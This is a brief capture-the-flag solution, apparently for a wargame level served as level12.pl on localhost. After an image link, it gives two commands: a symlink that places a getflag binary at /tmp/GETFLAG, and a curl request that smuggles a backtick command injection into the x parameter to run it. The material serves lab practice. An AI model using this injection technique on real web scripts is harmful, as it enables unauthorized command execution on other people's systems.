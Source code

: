 ln  -s /bin/getflag /tmp/GETFLAG
curl 'http://localhost:4646/level12.pl?x=`%2F%2A%2FGETFLAG%3E%262`'